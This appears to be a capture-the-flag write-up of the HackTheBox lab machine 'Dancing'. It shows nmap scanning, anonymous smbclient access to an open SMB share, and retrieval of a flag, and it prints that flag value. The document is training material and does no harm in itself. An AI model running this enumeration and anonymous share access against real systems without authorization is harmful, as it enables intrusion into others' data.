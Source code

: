 ```yaml
---
title: "HackTheBox - Dancing"
date: 2023-12-25 05:06:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, smb, databases]
image:
    path: /assets/img/hackthebox/starting_points/Dancing.png
    alt: Dancing - HackTheBox
---
```


[**Dancing**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Dancing we will learn about **SMB (Server Message Block)**.

## Introduction

- Connect **Dancing** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.236.96

PING 10.129.236.96 (10.129.236.96) 56(84) bytes of data.
64 bytes from 10.129.236.96: icmp_seq=1 ttl=127 time=263 ms
64 bytes from 10.129.236.96: icmp_seq=2 ttl=127 time=286 ms
64 bytes from 10.129.236.96: icmp_seq=3 ttl=127 time=310 ms
64 bytes from 10.129.236.96: icmp_seq=4 ttl=127 time=231 ms

--- 10.129.236.96 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3002ms
rtt min/avg/max/mdev = 231.476/272.733/309.960/28.947 ms
```

### Nmap

To be able to see all open ports, we can use `Nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port. 

```bash
❯ nmap -sCV 10.129.236.96

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-25 05:12 WIB
Nmap scan report for JSN.JaringanKU (10.129.236.96)
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-12-25T02:14:25
|_  start_date: N/A
|_clock-skew: 4h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.36 seconds
```

## Foothold

We can see, there is port 445/tcp which is the port for **SMB/SAMBA** services.

### SMB/SAMBA

Type `smbclient`, and add `-L` to get a list of shares available from the host.

```bash
❯ smbclient -L 10.129.236.96

Password for [WORKGROUP\huda]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      

SMB1 disabled -- no workgroup available
```

Look at the end of the sharename, if there is a $ sign then we need a password to enter it. If there is no $, we can log in using `-N` which is used to log in without a password.

```bash
❯ smbclient -N //10.129.236.96/WorkShares

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 15:22:01 2021
  ..                                  D        0  Mon Mar 29 15:22:01 2021
  Amy.J                               D        0  Mon Mar 29 16:08:24 2021
  James.P                             D        0  Thu Jun  3 15:38:03 2021

		5114111 blocks of size 4096. 1748932 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 16:08:24 2021
  ..                                  D        0  Mon Mar 29 16:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 18:00:37 2021

		5114111 blocks of size 4096. 1748932 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 15:38:03 2021
  ..                                  D        0  Thu Jun  3 15:38:03 2021
  flag.txt                            A       32  Mon Mar 29 16:26:57 2021

		5114111 blocks of size 4096. 1748900 blocks available
smb: \James.P\> echo flag.txt
echo <num> <data>
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,0 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```

After downloading everything, exit SMB and open it in your working directory.

```bash
❯ ls
 flag.txt
 worknotes.txt

❯ cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing

❯ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```
